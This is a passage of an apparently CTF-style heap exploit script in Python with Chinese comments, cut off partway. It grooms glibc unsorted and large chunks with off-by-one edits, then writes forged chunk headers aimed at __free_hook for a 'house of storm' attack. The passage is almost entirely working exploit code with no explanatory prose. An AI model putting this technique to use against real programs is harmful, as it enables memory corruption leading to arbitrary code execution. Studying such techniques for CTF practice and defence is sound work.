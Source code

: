 		#dbg()
		#----------------准备 unsorted chunk-----------------------#	
		edit(5, 'a'*0x4f0+p64(0x500))
	
		#dbg()
	
		free(5)
		edit(4, 'a'*0x18)
		
		#dbg()
	
		add(0x18)#5
		add(0x4d8)#11
		free(5)
		free(6)
		
		#dbg()
		
		add(0x30)#5
		add(0x4e8)#6
		
		#dbg()
		
		#-------------------准备 large chunk-----------------------------------#
		edit(8, 'a'*0x4f0+p64(0x500))
		free(8)
		edit(7, 'a'*0x18)
		add(0x18)#8
		add(0x4d8)#12
		free(8)
		free(9)
		add(0x40)#8
		#---------------unsorted chunk 和 large chunk 放到对应位置----------------------#
		
		#dbg()
		
		free(6)
		
		#dbg()
		
		add(0x4e8)#6
		
		#dbg()
		
		free(6)
	
		#dbg()
	
		#pause()
		#--------------修改他们的满足条件进行 house of strom------------------------------#
		storage = free_hook
		fake_chunk = storage - 0x20
		payload = '\x00'*0x10 + p64(0) + p64(0x4f1) + p64(0) + p64(fake_chunk)
		edit(11, payload)
	
		#dbg()
	
		payload = '\x00'*0x20 + p64(0) + p64(0x4e1) + p64(0) + p64(fake_chunk+8) +p64(0) + p64(fake_chunk-0x18-5)
		edit(12, payload)
	